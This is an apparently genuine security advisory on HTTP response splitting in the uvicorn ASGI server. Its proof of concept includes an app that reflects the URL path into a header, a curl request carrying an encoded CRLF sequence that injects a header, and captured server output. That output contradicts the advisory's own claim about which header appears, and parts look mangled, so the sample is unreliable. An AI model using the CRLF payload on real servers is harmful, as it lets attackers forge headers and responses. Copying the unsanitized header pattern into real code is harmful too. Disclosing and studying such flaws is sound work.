 # Overview

uvicorn is a lightning-fast ASGI server.

This package is vulnerable to HTTP Response Splitting. Uvicorn's implementation of the HTTP protocol for the httptools parser is vulnerable to HTTP response splitting. CRLF sequences are not escaped in the value of HTTP headers. Attackers can exploit this to add arbitrary headers to HTTP responses, or even return an arbitrary response body, whenever crafted input is used to construct HTTP headers.

## Proof of Concept

```
async def app(scope, receive, send):
assert scope['type'] == 'http'
await send({
'type': 'http.response.start',
'status': 200,
'headers': [
[b'Content-Type', b'text/plain'],
[b'Referer', scope['path'].encode()],
]
})
 await send({
'type': 'http.response.body',
'body': b'Hello, world!',
})
```

```
uvicorn poc-3:app --port 9999 --http httptools
```

To exploit this vulnerability, make a GET request with a crafted URL path like so:

```
curl -v 'http://localhost:9999/foo%0d%0ahuntr:%20dev'
```

Uvicorn will return an additional HTTP header "huntr" with the value "dev":

```
- Trying 127.0.0.1...
- Connected to localhost (127.0.0.1) port 9999 (#0)
  > GET /foo%0d%0ahuntr:%20dev HTTP/1.1
  > Host: localhost:9999
  > User-Agent: curl/7.58.0
  > Accept: _/_

< HTTP/1.1 200 OK
< server: uvicorn
< content-type: text/plain
< referer: /huntr
< dev: dev
< transfer-encoding: chunked
<
```
